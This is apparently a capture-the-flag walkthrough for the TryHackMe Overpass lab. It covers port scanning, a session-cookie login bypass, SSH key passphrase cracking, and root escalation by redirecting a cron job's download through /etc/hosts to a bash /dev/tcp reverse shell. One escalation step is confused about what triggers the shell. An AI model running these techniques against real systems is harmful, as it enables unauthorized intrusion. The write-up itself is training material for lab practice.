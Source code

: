 # TryHackMe-OverPass Machine
----------------------------------------------------------------------
## Methodology:
### 1. Enumeration & Scanning
### 2. Enumerating HTTP
### 3. Privilege Escalation
----------------------------------------------------------------------
## 1- Start With Enumeration
#### Scanning the target Machine Using Nmap ==>> `nmap -sC -sV [Target IP]`
```
root@mahmoud:~# nmap -sC -sV 10.10.48.101
Starting Nmap 7.91 ( https://nmap.org ) at 2021-12-23 19:12 EET
Nmap scan report for 10.10.48.101
Host is up (0.66s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37:96:85:98:d1:00:9c:14:63:d9:b0:34:75:b1:f9:57 (RSA)
|   256 53:75:fa:c0:65:da:dd:b1:e8:dd:40:b8:f6:82:39:24 (ECDSA)
|_  256 1c:4a:da:1f:36:54:6d:a6:c6:17:00:27:2e:67:75:9c (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Overpass
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 107.01 seconds

```
### So Here W found out there Two open ports:
### 1- SSH 22 OpenSSH
### 2- HTTP 80 Golang net/http server
-------------------------------------------------------------------
## Enumerating HTTP
#### Then Let's Brute Force to searching the files on the web server
#### using command ` gobuster dir -u http://10.10.48.101 -w ~/Lists/gobuster/Gobuster-Dir-Medium.txt -t 30`
### The Result:
```
/img                  (Status: 301) [Size: 0] [--> img/]
/downloads            (Status: 301) [Size: 0] [--> downloads/]
/aboutus              (Status: 301) [Size: 0] [--> aboutus/]
/admin                (Status: 301) [Size: 42] [--> /admin/]
/css                  (Status: 301) [Size: 0] [--> css/]
```
-------------------------------------------------------------------

## Let's Open /admin Directory
![Image of mahmoudashraf1344](https://github.com/0x1mahmoud/TryHackMe-Overpass/blob/main/img/THM3.png)
### I have tried the popular credentials... but it's incorrect credentials
### I have opened inspect element to check if there's a js file and i found that there's a 3 js files in debugger
### the login.js is vulnerable...
![Image of mahmoudashraf1344](https://github.com/0x1mahmoud/TryHackMe-Nax/blob/main/img/THM2.png)
### it says that if the response of the authentication request is not “Incorrect Credentials” if the authentication was successful, it then sets the SessionToken to “statusOrCookie”:
### so let's add `cookie: SessionToken=statusOrCookie`
![Image of mahmoudashraf1344](https://github.com/0x1mahmoud/TryHackMe-Overpass/blob/main/img/THM4.png)
### The Result:
![Image of mahmoudashraf1344](https://github.com/0x1mahmoud/TryHackMe-Overpass/blob/main/img/THM5.png)
#### Let's save this ssh key to file like `key` and now we have the username is `james`
#### move forward to using the SSH2John tool to extract the hash from the key
#### First: `root@mahmoud:~# /usr/share/john/ssh2john.py key > hash` ==> I Extract The Hash From key File so i got a "hash" file
#### Second: `root@mahmoud:~# john --wordlist=/usr/share/wordlists/rockyou.txt hash` ==> Now i got the key: james13
#### Note: this is just a key we will login with it via SSH it's not the james password
#### Now we can log in as james via SSH using the private SSH key and the cracked password. ==> `root@mahmoud:~# ssh -i key james@10.10.48.101`
#### after you logged in you will find user.txt it's your first flag :))
----------------------------------------------------------------------------------
## Privilege Escalation
#### 1. Transferring LinPeas using the Python Simple HTTP Server and Wget:
#### 2. Running LinPeas file you transferred to enumerate the machine:==> It means there is a cron job running as root which executes Curl against overpass.thm/dwnloads/src/buildscript.sh
#### 3. overpass.thm is a points at localhost also the /etc/hosts file can be modified by all users so Replacing the overpass.thm entry in /etc/hosts with the local Kali machine’s IP address from 127.0.0.1 to (Kali machine's IP)
#### 4. Creating a Bash script to reverse shell and connect back to the Kali host
#### The Script Code:
```
bash -i >& /dev/tcp/[Your Kali IP]/[PORT] 0>&1

```
#### 5. Then i will Transferring the reverse shell file "buildscript.sh" to the Target Machine
#### 6. let's open the listener by ncat ==> `nact -lnvp [PORT]`
#### 7. the final step run linPeas file again to execute the reverse shell file "buildscript"
#### 8. You will get a root shell to the machine and the second flag in root.txt
-------------------------------------------------------------------------------------------------------
Happy Hack :))

